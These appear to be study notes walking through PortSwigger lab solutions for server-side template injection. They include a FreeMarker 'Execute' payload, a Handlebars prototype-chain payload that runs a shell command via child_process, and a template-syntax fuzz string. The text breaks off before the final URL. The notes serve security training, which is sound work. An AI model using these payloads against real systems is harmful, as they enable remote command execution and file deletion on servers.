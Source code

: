 3. Go to the "Built-in reference" section of the documentation and find the entry for `new()`
	1. This entry further describes how `new()` is a security concern because it can be used to create arbitrary Java objects that implement the `TemplateModel` interface
	   
4. Load the JavaDoc for the `TemplateModel` class, and review the list of "All Known Implementing Classes".
5. Observe that there is a class called `Execute`, which can be used to execute arbitrary shell commands
6. Either attempt to construct your own exploit, or find [@albinowax's exploit](https://portswigger.net/research/server-side-template-injection) on our research page and adapt it as follows:
   `<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }`
   
7. Remove the invalid syntax that you entered earlier, and insert your new payload into the template.
8. Save the template and view the product page to solve the lab

##### Look for known exploits
Another key aspect of exploiting server-side template injection vulnerabilities:
- is being good at -->  finding additional resources online

Once you are able to identify the template engine being used:
- you should browse the web for any vulnerabilities that others may have already discovered. 
- Due to the widespread use of some of the major template engines:
	- it is sometimes possible to find well-documented exploits 
		- that you might be able to tweak to exploit your own target website

###### Server-side template injection in an unknown language with a documented exploit
- Notice that when you try to view more details about the first product, a `GET` request uses the `message` parameter to render `"Unfortunately this product is out of stock"` on the home page.
- Experiment by injecting a fuzz string containing template syntax from various different template languages, such as `${{<%[%'"}}%\`, into the `message` parameter. 
	- Notice that when you submit invalid syntax, an error message is shown in the output. This identifies that the website is using Handlebars
	  
- Search the web for "Handlebars server-side template injection". 
	- You should find a well-known exploit posted by `@Zombiehelp54`
- Modify this exploit so that it calls `require("child_process").exec("rm /home/carlos/morale.txt")` as follows:

```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```
- URL encode your exploit and add it as the value of the message parameter in the URL.
- The final exploit should look like this, but remember to replace `YOUR-LAB-ID` with your own lab ID: